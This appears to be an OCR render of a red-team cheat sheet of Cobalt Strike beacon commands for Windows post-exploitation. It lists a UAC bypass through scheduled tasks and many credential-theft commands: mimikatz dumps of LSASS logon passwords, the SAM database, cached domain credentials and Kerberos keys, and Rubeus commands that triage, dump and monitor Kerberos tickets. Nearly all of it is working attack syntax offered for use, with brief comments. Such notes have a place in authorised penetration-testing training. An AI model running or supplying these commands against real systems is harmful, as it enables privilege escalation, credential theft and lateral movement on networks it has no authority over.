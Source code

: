 # UAC Bypass
beacon> run whoami /groups
beacon> elevate uac-schtasks tcp-local
beacon> run netstat -anop tcp
beacon> connect localhost 4444

Credential Theft

# "!" symbol is used to run command in elevated context of System User
# "@" symbol is used to impersonate beacon thread token

# Dump TGT/TGS Tickets
beacon> mimikatz !sekurlsa::tickets
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x14794e /nowrap
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /interval:10 /nowrap

# Dump the local SAM database 
beacon> mimikatz !lsadump::sam

# Dump the logon passwords (Plain Text + Hashes) from LSASS.exe for currently logged on users
beacon> mimikatz !sekurlsa::logonpasswords

# Dump the encryption keys used by Kerberos of logged on users (hashes incorrectly labelled as des_cbc_md4)
beacon> mimikatz !sekurlsa::ekeys

# Dump Domain Cached Credentials (cannotbe be used for lateral movement unless cracked as the hash format is not NTLM so it can't be used with pass the hash)
# https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials#cracking-mscash-mscache-with-hashcat
beacon> mimikatz !lsadump::cache

# List the kerberos tickets cached in current logon session or all logon session (privileged session)
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
